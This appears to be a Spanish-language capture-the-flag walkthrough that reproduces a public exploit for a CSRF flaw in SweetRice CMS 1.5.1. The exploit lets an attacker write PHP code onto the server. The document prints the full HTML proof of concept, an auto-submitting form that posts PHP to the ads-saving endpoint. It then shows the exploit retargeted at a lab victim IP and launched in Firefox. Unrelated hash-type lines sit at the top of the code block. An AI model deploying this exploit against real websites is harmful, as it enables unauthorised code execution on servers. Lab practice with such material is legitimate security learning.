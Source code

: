 La descripción indica que existe una vulnerabilidad de **Cross-Site Request Forgery (CSRF)** en la sección de adición de anuncios, la cual permite que un atacante ejecute código PHP en el servidor. 

En este exploit en particular, se ha añadido el siguiente código: `echo '<h1> Hacked </h1>'; phpinfo();`

```bash
[+] Haval-128
[+] Haval-128(HMAC)
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1

# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

Modificamos el código HTML para especificar la dirección IP de la máquina víctima y la ruta del CMS.

`<form action="http://10.10.151.164/content/as/?type=ad&mode=save" method="POST" name="exploit">`
A continuación, ejecutamos el archivo HTML utilizando el siguiente comando:

```bash
❯ firefox exploit.html
```
